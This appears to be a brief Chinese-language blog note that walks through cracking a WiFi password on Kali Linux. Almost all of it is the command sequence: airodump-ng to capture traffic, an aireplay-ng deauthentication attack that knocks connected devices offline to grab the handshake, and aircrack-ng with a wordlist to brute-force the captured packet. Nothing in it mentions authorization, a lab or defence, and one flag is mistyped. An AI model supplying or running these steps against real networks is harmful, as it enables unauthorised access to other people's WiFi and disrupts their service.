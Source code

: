 ```yaml
---
title: kali无线网卡破解wifi密码.md
toc: true
date: 2021-09-23 20:50:54
tags:
categories:
---
```




*先决条件：`kali+网卡`*

`airmon-ng check kill`清缓存

`iwconfig`及`ifconfig`找网卡名称（以下命名为wlan0）

`airodump-ng wlan0`查看列表

`airodump-ng wlan0 —bassid mac地址 -c 1 -w 文件名(如:haha)`监听，此窗口不要关闭

当发现有设备在连接后`aireplay-ng -0 20 -a mac地址 -c 设备地址 wlan0`断网攻击，以抓取数据包.cap

暴力破解数据包`aircrack-ng -w 字典 包`
